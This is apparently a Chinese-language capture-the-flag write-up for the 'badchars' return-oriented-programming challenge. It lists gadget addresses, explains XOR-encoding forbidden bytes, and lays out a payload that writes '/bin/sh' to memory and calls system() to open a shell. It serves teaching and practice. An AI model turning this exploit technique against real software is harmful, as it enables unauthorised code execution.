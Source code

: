 ## Reverse
和前一题 3-write4 差不多，只是这次又多了 badchars 检测，我们的 payload 不能包含以下任何一个字元：
```
badchars are: b i c / <space> f n s
```

先来看看 ROP Gadgets 有哪些可以用的。

<br>

## ROP Gadgets
这次我们发现可利用的 gadgets 有四个：
```
(1) 0x08048893 : mov dword ptr [edi], esi ; ret
(2) 0x08048899 : pop esi ; pop edi ; ret
(3) 0x08048890 : xor byte ptr [ebx], cl ; ret
(4) 0x08048896 : pop ebx ; pop ecx ; ret
```

Gadget3 有个 xor，我们可以利用 xor cipher 的特性，在 bof 时先把 payload 中的 badchars 替换成程式允许的字元。
```
let xor_key = 5
let 3 be a badchar
let 6 be an allowed char

3 ^ xor_key = 6
6 ^ xor_key = 3
```

到之后 ROP Chain 开始运行时，再利用 xor 把 badchars 还原回来。

<br>

## Pwn
具体细节都和上一题差不多，只是 ROP Chain 里多了通过 xor 还原 badchars 的流程，此处不赘述。

设计 payload：
```
11 * 'AAAA' +
gadget2     + '/bin'    + buf       + gadget1 +
gadget2     + '/sh\x00' + (buf + 4) + gadget1 +
gadget4     + (buf+0)   + xor_key   + gadget3 +
gadget4     + (buf+1)   + xor_key   + gadget3 +
gadget4     + (buf+2)   + xor_key   + gadget3 +
gadget4     + (buf+3)   + xor_key   + gadget3 +
gadget4     + (buf+4)   + xor_key   + gadget3 +
gadget4     + (buf+5)   + xor_key   + gadget3 +
system_plt  + 'AAAA'    + buf
```

xor_key 我直接选 0x3（瞎挑的），然后 xor 过后的字元都刚好不在 badchars 内 （汗），所以就选 0x3 吧。

中间 gadget4 ... gadget3 那几行，因为 `/bin/sh\x00` 刚好前6个字都是 badchars，后面的都是 goodchars，所以这边刚好是 +0 ~ +5

至于 buf 的位址要选用哪个，就一样通过 `readelf -S badchars` 列出程式的所有 sections，然后找到一个可写的当 buf 来存放 "/bin/sh\x00"。
